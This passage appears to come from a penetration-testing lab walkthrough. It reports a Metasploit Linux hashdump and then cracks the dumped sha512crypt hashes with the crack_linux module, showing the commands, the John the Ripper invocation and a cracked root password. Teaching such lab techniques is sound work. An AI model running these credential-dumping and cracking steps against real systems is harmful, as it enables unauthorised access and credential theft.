 ```bash
```

#### **🔓 Hash Extraction Results:**
- **Password file created** in Metasploit loot directory
- **Hashes successfully extracted** despite compatibility warning
- **File location:** `/root/.msf4/loot/20240710-084143_default_192.70.114.3_linux.hashes_048201.txt`
- **Ready for cracking** using automated tools

#### **Why the Warning Occurred:**
The compatibility warning appears because the session type is Unix rather than specifically Linux, but the module still functions correctly.

---

### **Step 7: Automated Hash Cracking with Metasploit**

**What We're Doing:** Using Metasploit's built-in hash cracking capabilities

#### **Commands Used:**
```bash
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

#### **What Happened:**
```bash
msf6 post(linux/gather/hashdump) > use auxiliary/analyze/crack_linux
msf6 auxiliary(analyze/crack_linux) > set SHA512 true
SHA512 => true
msf6 auxiliary(analyze/crack_linux) > run

[+] john Version Detected: 1.9.0-jumbo-1+bleeding-aec132866c 2021-11-02 10:45:52 +0100 OMP
[+] Wordlist file written to: /tmp/jtrtmp20240710-1176-ke8dzj
[+] Checking sha512crypt hashes already cracked...
[+] Cracking sha512crypt hashes in single mode...
[+] Cracking command: /usr/sbin/john --session=T5QSjemh --nolog --config=/usr/share/metasploit-framework/data/jtr/john.conf --pot=/root/.msf4/loot/john.pot --format=sha512crypt --wordlist=/tmp/jtrtmp20240710-1176-ke8dzj --rules=single /tmp/hashes_sha512crypt_20240710-1176-poxhmp

using default input encoding: UTF-8
Will run 10 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1g 0:00:00:01 DONE (2024-07-10 08:41) 0.9952g/s 1423p/s 1423c/s 1423C/s iwerty..daniela
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

[+] Cracked Hashes
==============

 DB ID  Hash Type    Username  Cracked Password  Method
 -----  ---------    --------  ----------------  ------
 1      sha512crypt  root      password         Single

[*] Auxiliary module execution completed
```
